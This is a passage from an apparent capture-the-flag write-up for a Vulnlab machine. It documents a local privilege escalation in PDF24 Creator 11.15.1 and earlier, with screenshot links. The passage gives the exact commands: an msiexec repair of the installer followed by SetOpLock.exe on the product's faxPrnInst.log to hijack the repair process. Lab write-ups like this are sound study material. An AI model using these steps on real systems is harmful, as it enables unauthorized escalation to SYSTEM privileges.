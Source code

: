 
```
Vulnerable: <=11.15.1
Fixed: 11.15.2
```
![msi](../assets/img/ctf/vulnlab/lock/lock21.png)

```powershell
msiexec.exe /fa "C:\_install\pdf24-creator-11.15.1-x64.msi"
or 
Manualy right click on the msi file then repair...

SetOpLock.exe "C:\Program Files\PDF24\faxPrnInst.log" r
```
![repair](../assets/img/ctf/vulnlab/lock/lock22.png)
